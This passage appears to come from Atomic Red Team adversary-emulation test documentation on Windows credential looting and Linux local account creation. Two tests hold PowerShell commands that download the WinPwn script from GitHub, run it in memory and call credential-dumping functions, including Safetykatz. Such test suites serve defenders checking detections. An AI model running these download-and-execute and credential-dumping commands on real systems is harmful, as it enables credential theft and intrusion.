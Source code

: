 


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
obfuskittiedump -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #7 - WinPwn - Loot local Credentials - Safetykatz
Loot local Credentials - Safetykatz technique via function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** e9fdb899-a980-4ba4-934b-486ad22e22f4






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
safedump -consoleoutput -noninteractive
```






<br/>
<br/>

## Atomic Test #8 - Create local account (Linux)
An adversary may wish to create an account with admin privileges to work with. In this test we create a "art" user with the password art, switch to art, execute whoami, exit and delete the art user.

**Supported Platforms:** Linux


**auto_generated_guid:** 02a91c34-8a5b-4bed-87af-501103eb5357
